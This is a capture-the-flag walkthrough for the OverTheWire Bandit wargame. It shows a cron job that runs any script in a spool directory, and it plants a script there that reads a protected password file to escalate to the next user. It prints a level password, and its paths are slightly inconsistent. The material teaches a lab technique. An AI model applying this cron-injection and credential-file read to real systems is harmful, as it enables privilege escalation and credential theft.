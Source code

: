 ```console
bandit22@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls -a
.                  cronjob_bandit24       natas25_cleanup   semtex0-ppc
..                 cronjob_bandit24_root  natas25_cleanup~  semtex5
.placeholder       leviathan5_cleanup     natas26_cleanup   sysstat
behemoth4_cleanup  manpage3_resetpw_job   natas27_cleanup   vortex0
cron-apt           melinda-stats          php5              vortex20
cronjob_bandit22   natas-session-toucher  semtex0-32
cronjob_bandit23   natas-stats            semtex0-64
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
```

Opening the __cronjob_bandit24.sh__ script we get the following Bash Script, seen below:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done
```

We will go ahead and create a temporary directory.

```console
bandit23@bandit:/etc/cron.d$ mkdir /tmp/23
bandit23@bandit:/etc/cron.d$ cd /tmp/23
bandit23@bandit:/tmp/23$ nano
```

Once you open __Nano__ we will go ahead and write our own script to inject.

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass
```

Save this new script as `script.sh`. And go back into our console...

```console
bandit23@bandit:/tmp/23$ chmod 777 script.sh
bandit23@bandit:/tmp/23$ cp script.sh /var/spool/bandit24
bandit23@bandit:/tmp/23$ dir -a
.  ..  pass  script.sh
bandit23@bandit:/tmp/23$ cat /tmp/23/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
